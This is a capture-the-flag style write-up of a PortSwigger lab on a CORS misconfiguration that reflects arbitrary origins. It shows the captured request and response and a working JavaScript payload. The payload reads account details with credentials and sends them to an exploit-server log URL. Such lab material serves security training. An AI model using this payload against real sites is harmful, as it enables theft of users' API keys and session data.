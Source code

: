 # PortSwigger CORS Lab 1: CORS vulnerability with basic origin reflection

## Instructions

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploit

There is a API key leaked on the `accountDetails` endpoint

![](attachments/Pasted%20image%2020250824082441.png)

Looking at this in the proxy shows the request and response.

```
GET /accountDetails HTTP/1.1
Host: 0a6300590490f183806703ee00fc00ea.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/my-account?id=wiener
Connection: keep-alive
Cookie: session=vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: magenta
Priority: u=4


```

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 149

{
	"username": "wiener",
	"email": "",
	"apikey": "o5BObzi7TrabVjCMQedPZO3Zhwams76K",
	"sessions": [
		"vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O"
	]
}
```

If we send another request with an arbitrary Origin header, we see that the arbitrary value is reflected in the `Access-Control-Allow-Origin` response header. This means that a site on any origin can make requests to the vulnerable site and read the responses. 

![](attachments/Pasted%20image%2020250824081834.png)

We can use the payload from Payloadsallthethings at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#origin-reflection

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();

function reqListener() {
	location='//exploit-0a6500ab0499f17080cb0247015a00ab.exploit-server.net/log?key='+this.responseText; 
};
```

Put this in the exploit server

![](attachments/Pasted%20image%2020250824081748.png)

After clicking "Deliver exploit to victim", we can check the access log and find the administrator's API key.

![](attachments/Pasted%20image%2020250824081813.png)

After submitting the admin's API key we finish the lab. 